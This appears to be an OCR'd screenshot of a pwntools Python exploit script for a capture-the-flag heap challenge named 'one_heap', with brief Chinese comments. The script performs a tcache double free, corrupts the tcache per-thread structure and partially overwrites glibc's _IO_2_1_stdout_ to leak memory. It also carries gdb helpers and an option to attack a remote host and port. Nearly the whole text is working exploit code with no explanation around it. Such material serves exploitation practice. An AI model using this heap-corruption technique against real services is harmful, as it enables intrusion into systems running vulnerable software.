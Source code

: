 ```
if debug:
    context.log_level = "debug"

arena64 = 0x3c4b20
arena32 = 0x1b2780

def dbg(breakpoint=0):
    elf_base = int(os.popen('pmap {}| awk \x27{{print \x241}}\x27'.format(io.pid)).readlines()[1], 16)if elf.pie else 0 
    if breakpoint!=0:
        gdbscript = 'b *{:#x}\n'.format(int(breakpoint) + elf_base) if isinstance(breakpoint, int) else breakpoint
        gdb.attach(io, gdbscript)
        time.sleep(1)
    else:
        gdb.attach(io)

if len(sys.argv)>1:
    io = remote(sys.argv[1],int(sys.argv[2]))
    #libc = ELF("./libc.so.6")
else:
    #io = process(exe)
    libc = elf.libc

def new(size,content,line=1):
    sela(":","1")
    sela(":",str(size))
    if line==1:
        sela(":",content)
    else:
        sea(":",content)

def de():
    sela(":","2")

# double free tcache perthread corruption
def exp():
    global io
    io = process("./one_heap")
    new(0x7f,"a"*4)
    new(0x7f,"a"*4)
    de()
    de()
    
    new(0x2f,"") # 防止新unsorted bin 和topchunk合并
    de()

    new(0x7f,"")
    new(0x7f,"")
    new(0x7f,"")
    de()
    
    # 覆盖 0x7ffff7dd0760 <_IO_2_1_stdout_> 
    new(0x20,"\x60\x07\xdd")
    new(0x7f,p64(0)*5+p64(0xa1))
    new(0x7f,p64(0xfbad1800)+p64(0)*3+'\x00')
    try:
        if r(4)=="Done":
            return 
        else:
            pass
    except Exception as identifier:
        io.close()
```